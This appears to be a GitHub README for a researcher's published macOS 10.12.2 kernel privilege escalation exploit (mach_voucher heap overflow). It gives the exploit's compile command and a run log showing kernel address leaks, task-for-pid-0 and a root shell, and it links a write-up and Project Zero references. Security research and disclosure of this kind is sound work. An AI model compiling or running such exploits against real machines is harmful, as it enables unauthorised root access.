 #Local Privilege Escalation for macOS 10.12 via mach_voucher and XNU port Feng Shui

 * Write up:  
         
         1. Chinese Version: coming soon.  
         
         2. English Version: https://jaq.alibaba.com/community/art/show?articleid=532
 
 * by Min(Spark) Zheng (twitter@SparkZheng, weibo@蒸米spark)

 * Compile:  
  clang -framework IOKit -framework Foundation -framework CoreFoundation -pagezero_size 0x16000 exp.m -o exp

 * Run the exp:  
 
mindeMacBook-Air:port_fengshui_root minzheng$ ./exp 
***************************************************************************
Local privilege escalation for macOS 10.12.2 via mach_voucher heap overflow
by Min(Spark) Zheng @ Team OverSky (twitter@SparkZheng)
***************************************************************************
create voucher = 0xc03
fakeport = 0xce57000
ptz[0] = 0x32d03
found port!
leaked_ptr = 0xffffff800f6271c0
found kernel text at 0xffffff800ee00000
tfp0 = 0x32e03
kernel_base = 0xffffff800ee00000 slide = 0xec00000
read kernel header = 0x1000007feedfacf
getuid = 0
bash-3.2# whoami
root
bash-3.2# uname -a
Darwin mindeMacBook-Air.local 16.3.0 Darwin Kernel Version 16.3.0: Thu Nov 17 20:23:58 PST 2016; root:xnu-3789.31.2~1/RELEASE_X86_64 x86_64
bash-3.2# 


 * Special thanks to qwertyoruiop, ian beer, aimin pan, jingle, etc.
 
 * Reference:
 
         1. Yalu 102: https://github.com/kpwn/yalu102
         
         2. https://bugs.chromium.org/p/project-zero/issues/detail?id=1004
 
